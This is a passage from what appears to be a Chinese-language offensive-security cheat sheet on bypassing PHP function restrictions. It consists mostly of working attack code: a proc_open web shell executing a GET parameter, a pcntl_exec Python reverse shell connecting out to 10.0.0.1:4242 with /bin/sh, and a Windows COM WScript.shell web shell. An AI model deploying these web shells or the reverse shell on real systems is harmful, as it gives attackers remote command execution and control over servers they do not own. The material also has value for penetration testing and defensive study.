 7. proc_open
    ```php
    <?php
        $command=$_GET['command'];
        $descriptorspec=array(
            0=>array('pipe','r'),
            1=>array('pipe','w'),
            2=>array('pipe','w')
        );
        $handle=proc_open($command,$descriptorspec,$pipes,NULL);
        if(!is_resource($handle)){
        die('proc_open failed');
        }
        while($s=fgets($pipes[1])){
        print_r($s);
        }
        while($s=fgets($pipes[2])){
        print_r($s);
        }
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($handle);
    ?>
    ```

---

## pcntl_exec

目标机器若存在 python，可用 php 执行 python 反弹 shell
```php
<?php

pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'));

?>
```

---

## 利用系统组件绕过 (win)

利用条件
- `windows环境`
- `com组件`(PHP5.4自带)(高版本扩展要自己添加)
    - `extension=php_com_dotnet.dll`

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell');        // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command);  //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
